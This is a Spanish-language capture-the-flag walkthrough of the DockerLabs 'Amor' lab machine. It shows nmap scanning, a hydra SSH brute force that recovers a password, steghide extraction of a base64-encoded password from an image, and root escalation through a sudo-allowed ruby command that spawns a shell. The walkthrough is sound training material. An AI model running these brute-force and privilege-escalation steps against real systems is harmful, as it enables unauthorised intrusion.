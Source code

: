 ```yaml
---
icon: flag
---
```


# Amor DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip amor.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh amor.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-17 12:33 EST
Nmap scan report for 172.17.0.2
Host is up (0.000029s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7e:72:b6:8b:5f:7c:23:64:dc:15:21:32:5f:ce:40:0a (ECDSA)
|_  256 05:8a:a7:27:0f:88:b9:70:84:ec:6d:33:dc:ce:09:6f (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: SecurSEC S.L
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.18 seconds
```

Si entramos en la pagina veremos el siguiente nombre en este apartado:

<figure><img src="../../.gitbook/assets/image (186) (1).png" alt=""><figcaption></figcaption></figure>

Por lo que vemos tendremos un nombre de usuario, vamos a probar a realizar fuerza bruta con `hydra`.

## Escalate user carlota

### Hydra

```shell
hydra -l carlota -P <WORDLIST> ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-17 12:36:15
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlota   password: babygirl
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 25 final worker threads did not complete until end.
[ERROR] 25 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-17 12:36:22
```

Vemos que hemos obtenido unas credenciales, por lo que entraremos por `SSH`.

### SSH

```shell
ssh carlota@<IP>
```

Metemos como contraseña `babygirl` y veremos que estamos dentro.

## Escalate user oscar

Si nos vamos a la siguiente ruta:

```shell
cd /home/carlota/Desktop/fotos/vacaciones
```

Veremos un archivo llamado `imagen.jpg`, que podemos sospechar de que pueda tener algo en su interior, ya que no encontramos ningun vector de entrada mas, por lo que nos lo pasaremos a nuestro `host`.

```shell
python3 -m http.server
```

Y ahora en nuestro `host` ejecutaremos lo siguiente:

```shell
wget http://<IP>:8000/imagen.jpg
```

Ahora veremos que tiene algo dentro con el siguiente comando:

```shell
steghide extract -sf imagen.jpg
```

Info:

```
Enter passphrase: 
wrote extracted data to "secret.txt".
```

Vemos que nos extrae un archivo llamado `secret.txt` y si lo leemos veremos lo siguiente:

```
ZXNsYWNhc2FkZXBpbnlwb24=
```

Por lo que vemos esta en `Base64`, y si lo decodificamos quedara de esta forma:

```shell
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d
```

Info:

```
eslacasadepinypon
```

Por lo que vemos puede ser la contraseña de algun usuario del sistema, por lo que vamos a probar con el siguiente usuario.

```shell
su oscar
```

Metemos como contraseña `eslacasadepinypon` y veremos que somos dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for oscar on caa1dc877f39:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User oscar may run the following commands on caa1dc877f39:
    (ALL) NOPASSWD: /usr/bin/ruby
```

Vemos que podemos ejecutar el binario `ruby` como el usuario `root`, por lo que haremos lo siguiente:

```shell
sudo ruby -e 'exec "/bin/bash"'
```

Info:

```
root@caa1dc877f39:/home/carlota/Desktop/fotos/vacaciones# whoami
root
```

Y con esto ya seremos `root`, por lo que habremos terminado la maquina.
